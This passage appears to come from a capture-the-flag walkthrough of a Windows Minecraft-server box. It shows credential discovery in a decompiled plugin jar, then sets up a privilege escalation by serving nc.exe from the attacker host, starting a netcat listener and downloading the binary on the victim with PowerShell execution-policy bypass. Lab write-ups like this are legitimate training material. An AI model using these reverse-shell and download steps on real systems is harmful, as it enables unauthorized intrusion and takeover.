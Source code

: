```bash
Get-FileHash c:\users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar -Algorithm MD5
```
```plaintext
Algorithm       Hash                                                                   Path                            
---------       ----                                                                   ----                            
MD5             349F6584E18CD85FC9E014DA154EFE03                                       C:\users\svc_minecraft\server...
```

On attacker:

```bash
┌──(kali㉿kali)-[~/SimpleHTTPServerWithUpload]
└─$ md5sum playercounter-1.0-SNAPSHOT.jar 
349f6584e18cd85fc9e014da154efe03  playercounter-1.0-SNAPSHOT.jar
```

We can extract and view the contents, and we could also view these files on any online Java decompiler.

I used [https://www.decompiler.com/](https://www.decompiler.com/)

Reviewing the files, we notice the authentication pattern, consisting of IP, port, and password. We could find one misconfigured test file with the admin credentials of the 'Administrator' account.

We still have low privileges on the host, and we don't have any other running services where this credential can be leveraged.

With the reverse shell already established, we can attempt `runas /user:administrator`, but this method is ineffective as the shell is non-interactive.


>On the attacker machine, we'll host the executable directory containing nc.exe for HTTP download.

```bash
└─$ sudo python3 -m http.server 80                       
sudo: unable to resolve host kali: Name or service not known
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

And initiate a netcat listener for the shell with administrative privileges.

```bash
nc -nvlp 4444
```

>On the victim machine

We'll use PowerShell, capable of storing values in declared variables.

We create a temp directory, download the hosted netcat binary, and execute it with administrative privileges to get a reverse shell with elevated privileges on the attacker machine

```plaintext
C:\users\svc_minecraft\server\plugins> cd C:\
C:\> 
C:\>mkdir temp
mkdir temp

C:\>cd temp
cd temp

C:\temp>powershell -ep bypass
powershell -ep bypass
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\temp> wget http://10.10.14.122:80/nc.exe -o nc.exe        
wget http://10.10.14.122:80/nc.exe -o nc.exe
```